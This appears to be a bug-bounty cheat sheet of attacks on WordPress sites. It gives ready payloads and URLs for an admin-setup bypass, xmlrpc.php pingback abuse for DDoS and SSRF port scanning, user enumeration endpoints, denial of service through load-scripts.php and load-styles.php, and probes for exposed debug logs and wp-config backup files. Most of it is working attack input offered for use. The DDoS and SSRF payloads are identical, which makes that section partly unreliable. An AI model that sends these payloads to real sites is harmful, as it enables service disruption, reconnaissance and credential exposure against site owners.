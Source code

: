 ## 1. Create database
``` 
/wp-admin with 403 status 
Bypass it using /wp-admin/setup-config.php?step=1
This will allow you to create a database
```

## 2. xmlrpc.php

This is one of the common issue on wordpress. To get some bucks with this misconfiguration you must have to exploit it fully, and have to show the impact properly as well.

## Detection
* visit site.com/xmlrpc.php
* Get the error message about POST request only
## Exploit
* Intercept the request and change the method GET to POST
* List all Methods
```
<methodCall>
<methodName>system.listMethods</methodName>
<params></params>
</methodCall>
```
* Check the pingback.ping mentod is there or not
* Perform DDOS
```
<methodCall>
<methodName>pingback.ping</methodName>
<params><param>
<value><string>http://<YOUR SERVER >:<port></string></value>
</param><param><value><string>http://<SOME VALID BLOG FROM THE SITE ></string>
</value></param></params>
</methodCall>
```
* Perform SSRF (Internal PORT scan only)
```
<methodCall>
<methodName>pingback.ping</methodName>
<params><param>
<value><string>http://<YOUR SERVER >:<port></string></value>
</param><param><value><string>http://<SOME VALID BLOG FROM THE SITE ></string>
</value></param></params>
</methodCall>
```
## 3. WP User Enumeration
This issue will only acceptable when target website is hiding their current users or they are not publically available. So attacker can use those user data for bruteforcing and other staff

## Detection
* visit site.com/wp-json/wp/v2/users/
* http://target.com/?author=1
* http://target.com/?rest_route=/wp/v2/users
* You will see json data with user info in response

## 4. Denial of Service via load-scripts.php
```
http://target.com/wp-admin/load-scripts.php?load=react,react-dom,moment,lodash,wp-polyfill-fetch,wp-polyfill-formdata,wp-polyfill-node-contains,wp-polyfill-url,wp-polyfill-dom-rect,wp-polyfill-element-closest,wp-polyfill,wp-block-library,wp-edit-post,wp-i18n,wp-hooks,wp-api-fetch,wp-data,wp-date,editor,colorpicker,media,wplink,link,utils,common,wp-sanitize,sack,quicktags,clipboard,wp-ajax-response,wp-api-request,wp-pointer,autosave,heartbeat,wp-auth-check,wp-lists,cropper,jquery,jquery-core,jquery-migrate,jquery-ui-core,jquery-effects-core,jquery-effects-blind,jquery-effects-bounce,jquery-effects-clip,jquery-effects-drop,jquery-effects-explode,jquery-effects-fade,jquery-effects-fold,jquery-effects-highlight,jquery-effects-puff,jquery-effects-pulsate,jquery-effects-scale,jquery-effects-shake,jquery-effects-size,jquery-effects-slide,jquery-effects-transfer,jquery-ui-accordion,jquery-ui-autocomplete,jquery-ui-button,jquery-ui-datepicker,jquery-ui-dialog,jquery-ui-draggable,jquery-ui-droppable,jquery-ui-menu,jquery-ui-mouse,jquery-ui-position,jquery-ui-progressbar,jquery-ui-resizable,jquery-ui-selectable,jquery-ui-selectmenu,jquery-ui-slider,jquery-ui-sortable,jquery-ui-spinner,jquery-ui-tabs,jquery-ui-tooltip,jquery-ui-widget,jquery-form,jquery-color,schedule,jquery-query,jquery-serialize-object,jquery-hotkeys,jquery-table-hotkeys,jquery-touch-punch,suggest,imagesloaded,masonry,jquery-masonry,thickbox,jcrop,swfobject,moxiejs,plupload,plupload-handlers,wp-plupload,swfupload,swfupload-all,swfupload-handlers,comment-reply,json2,underscore,backbone,wp-util,wp-backbone,revisions,imgareaselect,mediaelement,mediaelement-core,mediaelement-migrate,mediaelement-vimeo,wp-mediaelement,wp-codemirror,csslint,esprima,jshint,jsonlint,htmlhint,htmlhint-kses,code-editor,wp-theme-plugin-editor,wp-playlist,zxcvbn-async,password-strength-meter,user-profile,language-chooser,user-suggest,admin-bar,wplink,wpdialogs,word-count,media-upload,hoverIntent,hoverintent-js,customize-base,customize-loader,customize-preview,customize-models,customize-views,customize-controls,customize-selective-refresh,customize-widgets,customize-preview-widgets,customize-nav-menus,customize-preview-nav-menus,wp-custom-header,accordion,shortcode,media-models,wp-embed,media-views,media-editor,media-audiovideo,mce-view,wp-api,admin-tags,admin-comments,xfn,postbox,tags-box,tags-suggest,post,editor-expand,link,comment,admin-gallery,admin-widgets,media-widgets,media-audio-widget,media-image-widget,media-gallery-widget,media-video-widget,text-widgets,custom-html-widgets,theme,inline-edit-post,inline-edit-tax,plugin-install,site-health,privacy-tools,updates,farbtastic,iris,wp-color-picker,dashboard,list-revisions,media-grid,media,image-edit,set-post-thumbnail,nav-menu,custom-header,custom-background,media-gallery,svg-painter
```
## 5. Denial of Service via load-styles.php
```
http://target.com/wp-admin/load-styles.php?&load=common,forms,admin-menu,dashboard,list-tables,edit,revisions,media,themes,about,nav-menus,widgets,site-icon,l10n,install,wp-color-picker,customize-controls,customize-widgets,customize-nav-menus,customize-preview,ie,login,site-health,buttons,admin-bar,wp-auth-check,editor-buttons,media-views,wp-pointer,wp-jquery-ui-dialog,wp-block-library-theme,wp-edit-blocks,wp-block-editor,wp-block-library,wp-components,wp-edit-post,wp-editor,wp-format-library,wp-list-reusable-blocks,wp-nux,deprecated-media,farbtastic
```
## 6. Log files exposed
```
http://target.com/wp-content/debug.log
```
## 7. Backup file wp-config exposed
```
.wp-config.php.swp
wp-config.inc
wp-config.old
wp-config.txt
wp-config.html
wp-config.php.bak
wp-config.php.dist
wp-config.php.inc
wp-config.php.old
wp-config.php.save
wp-config.php.swp
wp-config.php.txt
wp-config.php.zip
wp-config.php.html
wp-config.php~
```


